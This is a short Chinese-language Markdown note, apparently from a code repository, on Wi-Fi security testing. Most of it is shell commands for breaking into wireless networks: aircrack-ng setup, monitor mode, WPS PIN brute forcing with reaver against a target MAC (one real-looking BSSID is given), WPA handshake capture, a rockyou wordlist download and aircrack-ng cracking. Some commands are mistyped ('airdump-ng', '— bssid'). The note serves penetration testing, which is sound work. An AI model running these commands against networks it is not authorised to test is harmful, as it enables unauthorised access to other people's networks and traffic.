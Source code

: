 # Wi-Fi安全测试

## 目前存在的wifi问题

1. wps暴力破解
2. wpa爆破

## 测试

1. wps功能探测
2. wpa/wap2版本探测
3. 密码暴力破解
4. Nessus协议栈扫描

## wps功能探测

安装aircrack

```bash
sudo apt-get update
sudo apt-get install -y aircrack-ng
```

使用

```bash
#网卡转换为minitor模式
sudo airmon-ng check kill
#重新启动网卡
sudo airmon-ng start wlan0
#监听附件的wifi信号
wash -i wlan0mon --ignore-fcs  #这里有时会报fcs错误,加上该选项即可，查看wps locked这一项，显示NO的都可以尝试
# 对目标进行暴力破解
reaver -i wlan0mon -b MAC -a -S -vv -d0 -c 1  		信号非常好
reaver -i wlan0mon -b MAC -a -S -vv -d2 -t 5 -c 1		信号普通
reaver -i wlan0mon -b MAC -a -S -vv -d5 -c 1			信号一般
reaver -i wlan0mon -b MAC -S -N -vv -c 4
reaver -i wlan0mon -b DC:EE:06:96:B7:B8 -S -N -vv -c 6

```



## WPA/WAP2版本探测

使用

```bash
# 查看ENC项目版本信息
airodump wlan0mon
```



## 密码暴力破解

使用

```bash
# 启动网卡到监听模式
airmon-ng start wlan0
# 开始扫描
airdump-ng mon0
# 抓取4次握手包
airodump-ng -c channelid — bssid macid -w outputpath mon0
# 下载字典破解
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
aircrack-ng -a2 -b mac -w rockyou.txt hackme.cap
```



## Nessus协议栈扫描

使用Nessus接入网络进行扫描。